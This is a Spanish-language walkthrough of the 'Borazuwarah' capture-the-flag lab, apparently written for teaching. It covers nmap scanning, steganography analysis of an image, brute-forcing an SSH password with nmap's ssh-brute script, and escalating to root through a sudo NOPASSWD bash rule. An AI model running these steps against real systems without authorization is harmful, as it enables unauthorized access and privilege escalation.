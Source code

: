- Tags: #BorazuwarahCTF
---
- [Maquina Borazuwareh](https://mega.nz/file/gWNQlaZD#CgYMb_EEBL0jcypTg0xZZUaIqhO47ueX6pPU6utLy1U) ==> Enlace de descarga del laboratorio.
```bash
 7z x borazuwarahctf.zip # Descomprimimos el archivo
 sudo bash auto_deploy.sh borazuwarahctf.tar # Desplegamos el laboratorio
```
---
- **( 172.17.0.2 )** ==> Direccion ip del **target**

#### Fase Reconocimiento:
```bash
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para ver si tenemos comunicacion con el target

wichSystem.py 172.17.0.2 # Usamos nuestra herramienta para determinar ante que nos estamos enfrentando
172.17.0.2 (ttl -> 64): Linux
```
---

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento puertos en el target
 extractPorts allPorts # parseamos la informacion mas releveante del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizmaos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos
nmap --script http-enum -p80 172.17.0.2 # No nos reporta nada
```
---
- **( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) )** ==> Tenemos esta version de ssh
- **( OpenSSH 9.2p1 Debian )** ==> Por el **codeName** buscamos en la web **launchPad**, donde nos reporta que estamos ante una posible version de: **( debianSid )** 
- **( 80/tcp open  http    Apache httpd 2.4.59 ((Debian)) )** ==> Tenemos un servicio de apache desplegado por el puerto 80

#### Fase Reconocimiento Web:
- **( http://172.17.0.2/ )** ==> Ingresamos a la web.
```bash
whatweb http://172.17.0.2 # No nos reporta informacion critica
http://172.17.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[172.17.0.2]
```
---
- **( Imagen )** ==> Tenemos una imagen que tendremos que descargar para auditarla.

#### Auditando Imagen:
```bash
file imagen.jpeg # Reviasmos que tipo de archivo es.
binwalk -e imagen.jpeg # Analizmaos la estructura en busca de archivos oculto.
strings imagen.jpeg # Con este logramos enocntrar informacion que posiblemente sea de un uusario valido en el servicio ssh expuesto.
```
---
```bash
<rdf:li xml:lang='x-default'>---------- User: borazuwarah ----------</rdf:li>
<rdf:li xml:lang='x-default'>---------- Password:  ----------</rdf:li>
```
---
- Nos intentamos conectar por el servicio **ssh**, Pero aun no podemos necesitamos algo mas
```bash
steghide info imagen.jpeg # Nos reporta que existe un archivo adjunto en la imagen.
archivo adjunto "secreto.txt": # Tenemos un archivo que tendremos que extraer
steghide extract -sf imagen.jpeg # Extraemos el archivo
```
---
- Este archivo no contiene ninguna informacion relevante, Asi que aplicaremos fuerza bruta para detectar las credenciales de este usuario
```bash
nmap -p22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2

borazuwarah:123456 - Valid credentials # Logramos obtenere la password para este usuario.
```
---
- Realizamos la conexion logrando acceder con esta cuenta.
```bash
 ssh-keygen -R 172.17.0.2 && ssh borazuwarah@172.17.0.2 # Proporcionamos la password.
```
---

#### Escalada Privilegios:
```bash
sudo -l

User borazuwarah may run the following commands on f7310885a0b9:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```
---
- Tenemos una via potencial de elevar privilegios;
```bash
sudo -u root bash
```
---
- Ahora somo el usuario privilegiado **root**.